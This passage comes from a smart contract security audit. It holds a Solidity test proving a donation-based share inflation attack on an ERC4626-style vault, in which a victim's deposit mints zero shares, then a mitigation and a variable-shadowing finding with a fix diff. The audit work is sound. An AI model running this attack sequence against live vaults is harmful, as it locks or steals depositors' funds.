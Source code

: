 ```solidity
        // (9 + 1 = 10) makes math simpler
        asset.approve(address(vault),9);
        vault.deposit(9, address(this));

        // do a large donation
        asset.transfer(address(vault), 10e18);

        // shares per assets is now manipulated
        assertEq(1e18+1,vault.convertToAssets(1));

        // victim stakes in vault
        vm.startPrank(bob);
        asset.approve(address(vault), 1e18);
        vault.deposit(1e18, bob);
        vm.stopPrank();

        // due to manipulation they receive 0 shares
        assertEq(0,vault.balanceOf(bob));

        // attacker redeems their shares
        vault.redeem(vault.balanceOf(address(this)), address(this), address(this));

        // even though the attacker loses 0.1 tokens
        assertEq(9.9e18 + 9,asset.balanceOf(address(this)));
        // the vicims tokens are lost and locked in the contract
        assertEq(1.1e18,asset.balanceOf(address(vault)));
    }
```

As you can see the attacker needs to pay `0.1e18` of assets for the attack. But they have effectively locked the victims `1e18` tokens in the contract.

Even though this is not profitable for the attacker it will leave the vault in a weird state and the victim will still have lost their tokens.

## Recommendations

Consider mitigating this with an initial deposit of a small amount. This is the most common and easy way to make sure this is not possible, as long as it is an substantial amount it will make this attack too costly.

# [L-01] `getTVLLimits` will return the wrong value due to variable shadowing.

The `getTVLLimits` function's local state variables (`maxPerDeposit` and `maxTotalDeposits`) are using the same names as the global state variables. This variable shadowing will cause the returned value to be 0, instead of the expected global state values for `maxPerDeposit` and `maxTotalDeposits`. Update the function and remove the local state variable declarations so that the function will return the expected value.

```diff
-    function getTVLLimits() external view returns (uint256 maxPerDeposit, uint256 maxTotalDeposits) {
+    function getTVLLimits() external view returns (uint256, uint256) {
        return (maxPerDeposit, maxTotalDeposits);
    }
```
